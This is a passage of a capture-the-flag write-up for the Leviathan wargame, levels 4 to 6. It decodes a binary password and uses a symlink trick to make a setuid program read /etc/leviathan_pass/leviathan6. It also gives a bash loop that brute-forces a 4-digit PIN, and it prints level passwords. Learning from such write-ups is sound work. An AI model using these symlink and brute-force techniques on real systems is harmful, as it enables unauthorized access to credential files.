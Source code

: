 Diving in the `.trash` we find the executable `bin`.
Running it prints the following output.

```
01010100 01101001 01110100 01101000 00110100 01100011 01101111 01101011 01100101 01101001 00001010
```

Passing it through a binary to ascii converter gives us the password to the next level - `Tith4cokei`.

# Level 5

Running the same routine we find.

```
total 28
drwxr-xr-x  2 root       root       4096 Oct 29  2018 .
drwxr-xr-x 10 root       root       4096 Oct 29  2018 ..
-rw-r--r--  1 root       root        220 May 15  2017 .bash_logout
-rw-r--r--  1 root       root       3526 May 15  2017 .bashrc
-r-sr-x---  1 leviathan6 leviathan5 7560 Oct 29  2018 leviathan5
-rw-r--r--  1 root       root        675 May 15  2017 .profile
```

And running `./leviathan5` yields.

```
Cannot find /tmp/file.log
```

Maybe we can do another symbolic link!

We run `ln -s /etc/leviathan_pass/leviathan6 /tmp/file.log` to create it 
and afterwards we run the executable.

```
leviathan5@leviathan:~$ ./leviathan5 
UgaoFee4li
```

Easy peasy, lemon squeezy.

# Level 6

In Level 6 we have a PIN protected executable, given we need a 4 digit-code we can brute force it!

Using the power of `bash` we brew a script, dead simple, yet powerfull!

```bash
#!/bin/bash

for a in {0..9}
do
  for b in {0..9}
  do
    for c in {0..9}
    do
      for d in {0..9}
      do
        echo "$a$b$c$d"
        ~/leviathan6 "$a$b$c$d"
      done
    done
  done
done
```
